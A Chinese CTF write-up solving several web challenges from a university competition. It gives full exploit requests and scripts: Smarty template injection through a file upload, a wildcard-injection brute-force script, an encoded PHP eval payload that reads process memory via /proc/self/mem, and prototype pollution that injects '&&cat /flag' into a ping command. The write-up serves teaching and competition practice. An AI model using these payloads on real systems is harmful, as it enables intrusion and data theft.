










odd_upload 覆盖模板文件,模板注入
exp如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 POST /index.php? HTTP/1.1 Host: c85fefa4-f274-4975-94d7-779d81ec20ed.nssctf.neusoft.edu.cn User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate Content-Type: multipart/form-data; boundary=---------------------------4655440457714203291551588774 Content-Length: 356 Origin: http://c85fefa4-f274-4975-94d7-779d81ec20ed.nssctf.neusoft.edu.cn Connection: close Referer: http://c85fefa4-f274-4975-94d7-779d81ec20ed.nssctf.neusoft.edu.cn/index.php Upgrade-Insecure-Requests: 1 -----------------------------4655440457714203291551588774 Content-Disposition: form-data; name="file"; filename="index.tpl" Content-Type: text/plain {if phpinfo()}{/if} -----------------------------4655440457714203291551588774 Content-Disposition: form-data; name="path" ./templates/ -----------------------------4655440457714203291551588774-- GET /index.php HTTP/1.1 Host: c85fefa4-f274-4975-94d7-779d81ec20ed.nssctf.neusoft.edu.cn User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate Connection: close Upgrade-Insecure-Requests: 1
easyinject 用*代替任意字符fuzz即可
fuzz时注意多个用户
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 #or4nge #递归查找 import requests url = "http://47.106.172.144:2333/" alphabet = 'abcdefghijklmnopqrstuvwxyz0123456789_' def search(flag): for c in alphabet: # print(flag+c+'*') r = requests.get(url, params={'user':flag+c+'*', 'pass':'1'}) if '找不到用户' in r.text: pass elif '查询用户不唯一' in r.text or '密码错误' in r.text: # print(c+'\n'+r.text) print(flag+c) search(flag+c) else: print('Error: ['+c+']\n'+r.text) search('')
hideandseek 源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 <?php highlight_file(__FILE__ ); function main ($flag =file_get_contents('/flag' );if ($flag =='' ){die ('看来你失败了' );} file_put_contents('/flag' ,'' ); test(); } function test (eval ($_REQUEST ['eval' ]);} if (isset ($_REQUEST ["eval" ])){main(); } ?>
exp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 http://9945f2fd-c3ce-4cb3-b5e8-d16ee5f1bd4c.nssctf.neusoft.edu.cn/?eval=eval(base64_decode("ICAgICAgICAkaGFuZGxlID0gZm9wZW4oIi9wcm9jL3NlbGYvbWFwcyIsICJyIik7CiAgICAgICAgaWYgKCRoYW5kbGUpIHsKICAgICAgICAgICAgd2hpbGUgKCFmZW9mICgkaGFuZGxlKSkgewogICAgICAgICAgICAgICAgJGJ1ZmZlciA9IGZnZXRzKCRoYW5kbGUpOwogICAgICAgICAgICAgICAgaWYgKHN0cnBvcygkYnVmZmVyLCAnLycpID09PSBmYWxzZSkgewogICAgICAgICAgICAgICAgICAgIC8vIGVjaG8gJGJ1ZmZlcjsKICAgICAgICAgICAgICAgICAgICAkcGF0dGVybiA9ICIvKFthLWYwLTldezEsfSktKFthLWYwLTldezEsfSkvIjsKICAgICAgICAgICAgICAgICAgICBwcmVnX21hdGNoKCRwYXR0ZXJuLCAkYnVmZmVyLCAkbWF0Y2hlcyk7CiAgICAgICAgICAgICAgICAgICAgLy8gdmFyX2R1bXAoJG1hdGNoZXMpOyAgLy/ovpPlh7rljLnphY3nu5PmnpwKICAgICAgICAgICAgICAgICAgICAkc3RhcnQgPSBoZXhkZWMoJG1hdGNoZXNbMV0pOwogICAgICAgICAgICAgICAgICAgICRlbmQgPSBoZXhkZWMoJG1hdGNoZXNbMl0pOwogICAgICAgICAgICAgICAgICAgICRzaXplID0gJGVuZC0kc3RhcnQ7CiAgICAgICAgICAgICAgICAgICAgJGNvbnRlbnQgPSBmaWxlX2dldF9jb250ZW50cygiL3Byb2Mvc2VsZi9tZW0iLEZBTFNFLE5VTEwsJHN0YXJ0LCRzaXplKTsKICAgICAgICAgICAgICAgICAgICAvLyBmbGFne30KICAgICAgICAgICAgICAgICAgICAkcG9zID0gc3RyaXBvcygkY29udGVudCwgImZsYWd7Iik7CiAgICAgICAgICAgICAgICAgICAgaWYgKCRwb3MgIT09IGZhbHNlKSB7CiAgICAgICAgICAgICAgICAgICAgICAgIGVjaG8gJGJ1ZmZlcjsKICAgICAgICAgICAgICAgICAgICAgICAgZWNobyAiXG4iOwogICAgICAgICAgICAgICAgICAgICAgICBlY2hvIHN1YnN0cigkY29udGVudCwgJHBvcywgODApOwogICAgICAgICAgICAgICAgICAgICAgICBlY2hvICJcbiI7CiAgICAgICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgICAgIGZjbG9zZSAoJGhhbmRsZSk7CiAgICAgICAgfQ==")); //base解码后 $handle = fopen("/proc/self/maps", "r"); if ($handle) { while (!feof ($handle)) { $buffer = fgets($handle); if (strpos($buffer, '/') === false) { // echo $buffer; $pattern = "/([a-f0-9]{1,})-([a-f0-9]{1,})/"; preg_match($pattern, $buffer, $matches); // var_dump($matches); // $start = hexdec($matches[1]); $end = hexdec($matches[2]); $size = $end-$start; $content = file_get_contents("/proc/self/mem",FALSE,NULL,$start,$size); // flag{} $pos = stripos($content, "flag{"); if ($pos !== false) { echo $buffer; echo "\n"; echo substr($content, $pos, 80); echo "\n"; } } } fclose ($handle); }
复现如下

思路大概就是从/proc/self/maps找进程的基址


起始地址-结束地址=差值大小的内存
最后利用
1 file_get_contents("/proc/self/mem",FALSE,NULL,$start,$size)
设置好基址和大小直接读取内存中的flag
注意/proc/self/mem必须要有偏移量才可以读取,这也是为什么要用file_get_contents的原因
dirtyrce 源码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 var express = require ('express' );var nodeCmd = require ('node-cmd' );var bodyParser = require ('body-parser' );const app = express();var router = express.Router();const port = 80 ;app.use(bodyParser.urlencoded({ extended : true })).use(bodyParser.json()); function isValidIP (ip ) var reg = /^(\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.(\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.(\d{1,2}|1\d\d|2[0-4]\d|25[0-5])\.(\d{1,2}|1\d\d|2[0-4]\d|25[0-5])$/ ; return reg.test(ip); } app.post("/ping" , function (req, res, next ) b = req.body.cmd; if (req.body.ping === undefined ) { res.send('invalid parm' ); return ; } ping = req.body.ping if (ping.time !== undefined ) { time = Number (ping.time); if (time > 10 || time < 1 ) { res.send('invalid time' ); return ; } if (Object .keys(ping).length != 1 && ping.ip !== undefined && ping.ip != '' ) { if (!isValidIP(ping.ip)) { res.send('invalid ip addr' ); return ; } } } else { res.send('need time parm' ); return ; } ip = ((ping.ip !== undefined && ping.ip != '' ) ? ping.ip: '114.114.114.114' ); nodeCmd.run('ping -n ' + time + ' ' + ip, function (err, data, stderr ) res.send(data); return ; }); }); app.get('/' , function (req, res, next ) res.redirect('index' ); }); app.get('/index' , function (req, res, next ) res.send('<title>ping test</title><form action="/ping" method="POST">Ip:<input type="text" name="ping[ip]"" placeholder="default value 114 dns"><br>Times:<input type="text" name="ping[time]" value="1"><input type="submit" value="Ping !"></form> ' ); }); app.listen(port);
复现如下

exp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 POST /ping HTTP/1.1 Host: 8397d874-dd21-40e2-9731-72a35885bd29.nssctf.neusoft.edu.cn User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:94.0) Gecko/20100101 Firefox/94.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content-Length: 57 Origin: http://8397d874-dd21-40e2-9731-72a35885bd29.nssctf.neusoft.edu.cn Connection: close Referer: http://8397d874-dd21-40e2-9731-72a35885bd29.nssctf.neusoft.edu.cn/index Upgrade-Insecure-Requests: 1 ping[__proto__][time]=1&ping[ip]=127.0.0.1%26%26cat+/flag
感觉这题十分的诡异(自己瞎测试)
这里我们将exp中ping的两个数组交换一下位置就不能执行命令了(注意点)

然后这题采用json形式传上去也不能执行命令

??!!
最后我们调试一波看看
首先拿出正确exp试试

可以看到直接就是原型链污染了这个ping.time为1
通过以下验证
1 2 3 if (ping.time !== undefined) { time = Number(ping.time); if (time > 10 || time < 1)

还有一点是__proto__这个属性不会被Object.keys()所遍历到
于是就通过下面的验证
1 Object.keys(ping).length != 1 && ping.ip !== undefined && ping.ip != ''
绕过ip的验证实现命令注入
来试试交换位置的这个payload

和刚才不同的是此处req.body.ping未接收到__proto__.time的值,ping.time也没有被污染

关于污染这块还是没怎么搞懂
测试了一下,发现还有一点就是只是污染了req.body.ping这个属性下的值,同属性污染
最后就是传入这个要是数组才能污染
1 2 3 4 5 //此处传入的是数组,能够污染 ping[ip]=127.0.0.1%26%26whoami&ping[__proto__][time]=1 //此处传入的是对象,不能污染 {"ping":{"__proto__":{"time":1},"ip":"127.0.0.1%26%26whoami"}}
wschat 反混淆https://lelinhtinh.github.io/de4js/
ws注入
前后端交互用的是socket io，参数格式用的是protobuf
实现sql注入
https://or4ngesec.github.io/post/dnuictf-writeup-by-or4nge/#wschat